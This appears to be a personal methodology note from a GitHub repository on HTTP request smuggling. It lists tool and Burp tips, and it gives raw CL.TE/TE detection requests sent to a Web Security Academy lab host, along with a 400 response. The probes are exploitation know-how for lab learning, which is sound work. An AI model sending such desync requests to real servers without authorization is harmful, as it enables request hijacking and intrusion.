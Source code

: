 ### Use this tool to check for http request smuggling vulnerabilities
`https://github.com/defparam/smuggler`


### Things to keep in mind to successfully exploit http request smuggling attacks.
```
1. Make sure to use HTTP/1.1 before trying to exploit because HTTP/2 doesn't support that.
In the inspector tab in burp , change to HTTP/1.1 from request attributes

2. If you are trying to using CL.TE , make sure you include connection: keep-alive header,
cause the backend server will only include that smuggled part in next request over same connection and
 using connection: keep-alive header will keep connection over same network.
3. In transfer encoding, 0 should be followed by new line
   0\r\n
   \r\n
```
### Identify if the frontend is using TE
send the request with  invalid transfer encoding request and see if it respond with bad request. If the response is invalid or bad request then the frontend is rejecting the invalid TE request. So, it confirms TE in frontend
```
POST / HTTP/1.1
Host: 0a9800ec040696b6826d248900930006.web-security-academy.net
Content-Type: application/x-www-form-urlencoded
Content-Length: 3
Transfer-Encoding: chunked

3
abc
x

```
response comes back as
```
HTTP/1.1 400 Bad Request
Content-Type: application/json; charset=utf-8
X-Content-Type-Options: nosniff
Connection: close
Content-Length: 27

{"error":"Invalid request"}
```
---
### Identifying if backend is using CE
send the below request and see the server timeout response from the server
```
POST / HTTP/1.1
Host: 0a9800ec040696b6826d248900930006.web-security-academy.net
Content-Type: application/x-www-form-urlencoded
Content-Length: 6
Transfer-Encoding: chunked

0

x
```
![Screenshot from 2023-10-31 18-22-58](https://github.com/Sameer484/methodology/assets/110039044/0b867e3e-217f-48ef-b76f-96daea24ba74)

### use this picture to identify the type of frontend and backend

![Screenshot from 2023-10-31 18-18-35](https://github.com/Sameer484/methodology/assets/110039044/835c41e8-a5be-4975-a793-29abe1053668)
